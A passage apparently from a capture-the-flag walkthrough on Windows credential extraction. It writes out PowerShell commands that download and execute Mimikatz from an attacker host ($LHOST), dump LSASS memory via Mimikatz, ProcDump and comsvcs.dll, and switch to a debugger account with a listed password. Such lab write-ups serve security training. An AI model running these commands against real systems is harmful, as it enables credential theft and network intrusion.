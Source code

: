 **FLAG{D***************2}** - In service description

## Phase 5: Advanced Credential Extraction

### Step 5.1: Mimikatz Deployment

Now for the advanced credential extraction:

```powershell
# Download Mimikatz
Invoke-WebRequest -Uri "http://$LHOST/mimikatz.exe" -OutFile "C:\temp\m.exe"

# Or use PowerShell version
IEX (New-Object Net.WebClient).DownloadString('http://$LHOST/Invoke-Mimikatz.ps1')
```

### Step 5.2: LSASS Memory Dumping

```powershell
# Run Mimikatz
C:\temp\m.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
mimikatz # sekurlsa::tickets
```

In the output, look for unusual entries beyond just passwords:
**FLAG{B***************5}** - Found in LSASS memory dump

**Alternative LSASS Dumping:**
```powershell
# Using ProcDump (legitimate tool)
procdump -accepteula -ma lsass.exe lsass.dmp

# Using comsvcs.dll (living off the land)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\temp\lsass.dmp full

# Transfer dump for offline analysis
# On Kali: pypykatz lsa minidump lsass.dmp
```

### Step 5.3: Debug Privileges

```powershell
# Check who has debug privileges
whoami /priv
Get-LocalGroupMember -Group "Debuggers"

# If debugger user exists
runas /user:debugger cmd.exe
# Password: Debugger2025!

# With debug privileges, access protected areas
reg query HKLM\SOFTWARE\DebugFlags
```
